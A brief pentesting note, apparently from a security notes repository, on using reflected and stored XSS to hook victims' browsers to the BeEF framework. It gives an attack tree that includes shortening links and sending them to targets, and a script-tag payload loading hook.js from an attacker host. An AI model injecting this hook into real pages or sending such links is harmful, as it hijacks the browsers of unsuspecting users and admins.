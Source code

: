 # Hooking targets to BeEF using XSS

## Attack tree

```text
1 Reflected XSS
    1.1 Create BeEF hook
    1.2 Inject hook script in vulnerable pages
    1.3 Take url and tiny it
    1.4 Send tiny link to people
    1.3 Execute commands from BeEF
2 Stored XSS
    2.1 Create BeEF hook
    2.2 Inject hook script in vulnerable pages
    2.3 Send link to people (and may the admin often look at pages, heh)
    2.4 Execute commands from BeEF
```

## Examples

To create a BeEF hook, copy the code given by beEF and replace IP address with address of hacking machine:

    <script src="http://192.168.122.104:3000/hook.js"></script>

## Tools

* [BeEF XSS](https://www.kali.org/tools/beef-xss/)